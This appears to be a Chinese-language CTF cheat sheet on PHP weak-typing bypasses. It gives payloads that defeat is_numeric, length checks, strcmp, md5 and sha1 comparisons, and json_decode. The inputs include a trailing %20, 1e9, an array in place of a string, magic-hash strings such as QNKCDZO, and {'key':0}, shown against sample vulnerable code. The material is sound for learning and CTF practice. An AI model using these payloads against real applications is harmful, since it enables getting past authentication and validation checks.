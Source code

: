 * [isNumber](#isNumber)
* [数字长度绕过](#数字长度绕过)
* [strcmp](#strcmp)
* [md5](#md5)
* [json_decode](#json_decode)
#isNumber
is_numeric()判断是否为数字，因为PHP的弱类型，将数字后面加上空格或者任意一个字符即可绕过.
payload:
```
数字%20
p2=2%20
```
#数字长度绕过
通过科学计数法绕过
payload:
```
$_GET['p1'] > 99999999 && strlen($_GET['p1']) < 9
p1=1e9
```
#strcmp
strcmp函数比较字符串的本质是将两个变量转换为ascii，然后进行减法运算，然后根据运算结果来决定返回值.
语法：strcmp(string1,string2);
0 - 如果两个字符串相等。当传入的数据类型不是字符串是，报错，并且返回0；

<0 - 如果 string1 小于 string2

>0 - 如果 string1 大于 string2
payload：
```
  if (strcmp($_GET['flag'], FLAG) == 0) 
  flag=[]
```
#md5
PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0
payload:
```
QNKCDZO
    240610708
    s878926199a
    s155964671a
    s214587387a
    s214587387a
     sha1(str)
    sha1('aaroZmOk')  
    sha1('aaK1STfY')
    sha1('aaO8zKZF')
    sha1('aa3OFF9m')
```
#json_decode
输入一个json类型的字符串，json_decode函数解密成一个数组，判断数组中key的值是否等于key的值。虽然key的值我们不知道，但是可以利用0=="string"这种形式绕过
payload:
```
define('key', 'flag{4}');
if (isset($_POST['a'])) {
    $a = json_decode($_POST['a']);
    if ($a->key == $key) {
        echo "flag" . key;
    } else {
        echo "不相等";
    }
 } else{
     echo "a不存在";
 }
a={"key":0}
```
